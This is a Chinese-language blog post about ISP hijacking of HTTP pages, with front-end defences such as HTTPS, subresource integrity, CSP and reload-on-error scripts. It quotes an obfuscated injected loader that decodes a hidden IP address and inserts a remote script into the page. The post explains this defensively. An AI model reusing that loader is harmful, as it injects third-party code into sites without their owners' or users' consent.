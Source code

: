 ```yaml
---
layout: post
title: "网络劫持"
date: 2018-12-25 11:14:54
categories: JavaScript
tags: js http dns
excerpt: 解决运营商的网络劫持问题
---
```


- content
  {:toc}
  国内 H5 页面的网络劫持愈演愈烈，所以前端得想办法解决它。

## 常见的劫持方法

### HTTP 劫持

简单的说就是在你的网页上`<head>`/`<body>`，插入一段标签、一段 js 等等方法。

### DNS 劫持

DNS 劫持，主要就是让你的域名跳转到运营商指定的域名去，比如你访问`www.baidu.com`,结果给你跳到 12345 网站。

还有一种就是跳转到运营的网页，然后在`iframe`中在嵌套你想去的网站，这样广告就能随意增加了

### JS 劫持

js 劫持本质上还是 DNS 劫持，但是它只对 js 起效，基本上是随机把你的一个 js 文件进行替换，然后在使用 js 吧你原本的 js 加载回来。

一般运营替换的 js 形式如下：

```js
!(function(e, t, n, o, r, i, a, c) {
  (c = (function(e, t, n) {
    for (t = e % 256, n = 3; 0 < n; n--)
      t = ((e = Math.floor(e / 256)) % 256) + "." + t;
    return t;
  })(2095620274)),
    (a = function(e) {
      (r = t.createElement(n)),
        (i = t.getElementsByTagName(n)[0]),
        (r.src = "//" + e),
        i.parentNode.insertBefore(r, i);
    })(
      o + (0 < o.indexOf("?") ? "&" : "?") + "_t" + new Date().getTime() + "=0i"
    ),
    a(c + "/v1/a/?u=3236477");
})(
  window,
  document,
  "script",
  "我的域名/static/help/js/jquery18min.js?t=23432423234"
);
```

## 当下的劫持问题现状

现在主要出现的就是让人防不胜防的`js劫持`，别的劫持特征太明显，或者太容易解决，已经基本被运营商淘汰，所以主要的就是`js劫持`问题。

js 劫持，运气好只是多一点广告，运气不好的时候，甚至会导致网站本身的 js 报错，依赖缺失，无法执行渲染导致白屏等等问题。

所以解决`js劫持`问题，是最重要的一环。

## 解决方法

最简单的解决方法就是启用 HTTPS。

当然如果能启用 HTTPS 的话，我也就不会写这篇文章了。

### 为什么不能启用 HTTPS

- 1、证书问题
  - 不过一般这不是问题，免费的证书也多的是
- 2、部署 https 问题
  - 这也不是问题，运维会搞定的，就算没运维，自己按照文章几个小时总能搞定的
- 3、HTTPS 中不允许 http
  - 这是最主要的问题，很多时候都是使用的第三方接口、资源，甚至需要 iframe 接入别的公司的的业务页面。只要涉及到的，都无法改。
- 4、HTTPS 导致的流量飙升问题
  - 服务器流量、cdn 流量都是需要花钱的，之前尝试升级到 https 之后，流量翻了 3 倍，流量费用有点吃不消（阿里云太黑！）

### http 下解决 js 劫持问题

#### 依赖文件使用 HTTPS

常用的依赖库，比如 `jssdk`、`jquery`等等库，可以使用 HTTPS 协议的，防止劫持，导致依赖出现问题。比如`https://www.bootcdn.cn/`、`https://cdn.baomitu.com/`

如果防止第三方 cdn 服务出现问题，可以在加入 js 使用本地 js 以防万一，以 jquery 为例

```html
<head>
  <script crossorigin="anonymous" integrity="sha384-nvAa0+6Qg9clwYCGGPpDQLVpLNn0fRaROjHqs13t4Ggj3Ez50XnGQqc/r8MhnRDZ" src="https://lib.baomitu.com/jquery/1.12.4/jquery.min.js"></script>
  <script>
    if(!jQuery){ // 如果下载没成功，就下载本地的jq
      document.write('<script src="./js/jquery.js"></script>')
    }
  </script>
</head>
```

#### 普通 js 加参数

总结大部分的 js 都是加了参数就放行，所以我们提前加上参数，这样就减少被劫持的风险

```html
<script src="https://lib.baomitu.com/jquery/1.12.4/jquery.min.js?v=1234567"></script>
```

#### CSP

csp 全名是 Content Security Policy ，简单的理解就是白名单，只要是在白名单中的 js 才允许下载，不是白名单中的域名的 js，浏览器直接拦截不会下载。

但是这会造成一个问题，那就是,被劫持的 js 没有被重新加载回来。

为了解决这个问题，需要分情况讨论了。

如果是普通的 js，可以采用`看门狗`技术
```html
<script>
var t = setTimeout(function(){
  location.reload(true);
},1e4)
</script>
```

```js
// 被劫持的js
clearTimeout(t)
```


如果是类似 vue、react 那样需要按需加载,并且使用了webpack打包的js，则可以采用捕获错误信息来解决

```js
(function() {
  var windowOnError;
  var consoleOnError;
  var isFunction = function(value) {
    return Object.prototype.toString.call(value) == "[object Function]";
  };
  if (isFunction(window.onerror)) {
    windowOnError = window.onerror;
  }
  if (isFunction(console.error)) {
    consoleOnError = console.error;
  }
  window.onerror = function(message, source, lineNo, colNo, error) {
    var msg = message;
    var stack = !!error && !!error.stack;
    var statckInfo = (stack && error.stack.toString()) || "";
    if (/webpackJsonp/gi.test(msg + statckInfo)) {
      setTimeout(function() {
        location.reload(true);
      }, 3000);
    }
    if (isFunction(windowOnError)) {
      windowOnError.call(window, message, source, lineNo, colNo, error);
    }
  };
  console.error = function(t) {
    var msg = t.message;
    var reg = /Loading chunk/gi;
    if (reg.test(msg)) {
      setTimeout(function() {
        location.reload(true);
      }, 3000);
    }
    if (isFunction(consoleOnError)) {
      consoleOnError.call(window, t);
    }
  };
})();
```

### 总结
被劫持问题，还是防不胜防，在http下只能是尽人事，效果具体如何还是看实际情况而定了。祝愿大家都能早日升级到HTTPS